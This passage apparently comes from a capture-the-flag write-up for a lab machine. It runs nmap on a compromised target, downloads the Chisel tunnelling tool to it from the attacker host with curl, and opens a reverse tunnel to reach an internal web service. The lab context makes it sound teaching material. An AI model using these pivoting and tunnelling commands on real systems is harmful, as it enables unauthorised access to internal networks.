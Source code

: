 Now that we have transferred it, let's execute it:

```bash
chmod +x nmap
./nmap -sT 192.168.1.1
```

![](/assets/WifineticTwo/12.png)
<br />
<br />

There are multiple services, let's inspect the web service, to do this, I will download Chisel and send it to the target machine:

```bash
Kali> which chisel
Kali> cp /usr/bin/chisel .
Kali> python3 -m http.server 80
Target> curl -O http://10.10.16.12/chisel
```
<br />

Let's set up the tunnel:
```bash
Target> chmod +x chisel
Kali> chisel server --reverse -p 8080
Target> ./chisel client 10.10.16.12:8080 R:8888:192.168.1.1:80
```

![](/assets/WifineticTwo/13.png)
<br />
<br />
